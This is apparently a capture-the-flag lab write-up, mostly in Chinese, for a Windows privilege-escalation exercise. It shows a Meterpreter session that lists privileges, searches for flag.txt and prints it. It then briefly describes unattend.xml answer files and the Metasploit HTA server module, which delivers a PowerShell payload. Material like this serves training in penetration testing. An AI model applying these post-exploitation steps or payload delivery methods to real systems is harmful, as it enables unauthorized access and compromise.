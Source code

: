 ```
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > search -f flag.txt
Found 2 results...
    c:\Documents and Settings\Administrator\Desktop\flag.txt (32 bytes)
    c:\Users\Administrator\Desktop\flag.txt (32 bytes)
meterpreter > cat c:\\Users\\Administrator\\Desktop\\flag.txt
097ab83639dce0ab3429cb0349493f60
```

## 解决方案
此实验室的解决方案可在以下手册中找到： https://assets.ine.com/labs/ad-manuals/walkthrough-2106.pdf

[Answer files (unattend.xml)](https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/update-windows-settings-and-scripts-create-your-own-answer-file-sxs?view=windows-11)

应答文件 (unattend.xml)

应答文件（或无人参与文件）可用于在安装期间修改你的映像中的 Windows 设置。 你还可以在映像中创建触发脚本的设置，在用户首次创建帐户并选择其默认语言后运行这些脚本。

Windows 安装程序将会自动搜索某些位置的应答文件，或者，你可以在运行 Windows 安装程序 (setup.exe) 时通过使用 /unattend: 选项来指定无人参与文件。

[HTA Web Server](https://www.rapid7.com/db/modules/exploit/windows/misc/hta_server/)

HTA 网络服务器

此模块托管一个 HTML 应用程序 (HTA)，打开时将通过 Powershell 运行有效负载。当用户导航到 HTA 文件时，IE 会在执行有效负载之前两次提示他们。
